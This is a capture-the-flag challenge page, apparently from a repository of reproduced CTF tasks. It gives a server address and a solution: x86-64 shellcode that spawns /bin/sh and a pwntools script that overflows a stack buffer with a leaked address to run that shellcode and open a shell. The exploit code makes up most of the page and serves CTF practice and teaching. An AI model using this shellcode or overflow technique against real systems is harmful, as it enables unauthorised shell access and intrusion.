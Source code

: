 #### Goals
 * Try to find the flag

#### Server Address
 * nc pwn.sniperoj.com 20005

#### Solution
```asm
global _start
	_start:
		xor rdi, rdi
		xor rsi, rsi
		xor rdx, rdx
		xor rax, rax
		push rax
		; 68 73 2f 2f 6e 69 62 2f
		mov rbx, 68732f2f6e69622fH
		push rbx
		mov rdi, rsp
		mov al, 59
		syscall
```
```python
#!/usr/bin/env python

from pwn import *

context(os='linux', arch='amd64', log_level='debug')

if len(sys.argv) == 3:
    host = sys.argv[1]
    port = int(sys.argv[2])
    Io = remote(host, port)
else:
    Io = process("./pwn")

Io.readline()
addr_data = Io.readline()
addr = int(addr_data.split("[")[1].split("]")[0][2:], 16)
Io.readline()

junk = "A" * 24
shellcode = "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
shellcode_addr = p64(addr + len(junk) + 8)
payload = junk + shellcode_addr + shellcode

Io.send(payload)

Io.interactive()
```

#### Writeups
 * TODO

## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（wangyihanger@gmail.com）
